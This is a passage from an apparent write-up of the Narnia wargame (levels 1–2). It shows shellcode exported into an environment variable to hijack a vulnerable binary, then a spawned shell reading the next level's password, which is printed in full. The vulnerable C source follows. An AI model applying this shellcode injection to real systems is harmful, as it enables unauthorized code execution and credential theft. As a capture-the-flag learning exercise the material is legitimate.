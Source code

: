 Seeing as NX is disabled, the program might execute shellcode upon exporting shellcode to the EGG environment variable.

There are many different shellcodes to use, but for the purpose of this exercise I chose the /bin/sh shellcode from [here](https://www.google.com/url?q=http://shell-storm.org/shellcode/files/shellcode-827.php&sa=D&source=editors&ust=1653862984600276&usg=AOvVaw3mvMKazajKlAB6SL_TGEYe)[[5]](#ftnt5). However, exporting this shellcode into the EGG environment variable and executing the program proves to not work:

{% highlight bash %}
narnia1@narnia:/narnia$ export EGG=$(python -c "print 'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80'")                      
narnia1@narnia:/narnia$ echo $EGG1Ph//shh/binPS          
             ̀                    
narnia1@narnia:/narnia$ ./narnia1  
Trying to execute EGG!                  
Segmentation fault                  
{% endhighlight %}

I do not know why this particular shellcode does not work. However, trying a shellcode[[6]](#ftnt6) that executes /bin/bash does work:

{% highlight bash %}
narnia1@narnia:/narnia$ export EGG=$(python -c "print 'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")  
narnia1@narnia:/narnia$ ./narnia1  
Trying to execute EGG!  
bash-4.4$ whoami  
narnia2  
bash-4.4$ cat /etc/narnia_pass/narnia2  
nairiepecu
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
  
int main(){   int (*ret)();   if(getenv("EGG")==NULL){       printf("Give me something to execute at the env-variable EGGn");       exit(1);  
   }   printf("Trying to execute EGG!n");  
   ret = getenv("EGG");  
   ret();   return 0;  
}
{% endhighlight %}

Note how the ret variable is not assigned a buffer. This is why the content of the environment variable was not seen in the ESP register during the analysis in pwndbg.

Narnia 2
--------

Using the credentials obtained for the narnia2 user, we can execute the narnia2 binary.

{% highlight bash %}
narnia2@narnia:/narnia$ ./narnia2  
Usage: ./narnia2 argument  
narnia2@narnia:/narnia$ ./narnia2 A  
Anarnia2@narnia:/narnia$
{% endhighlight %}
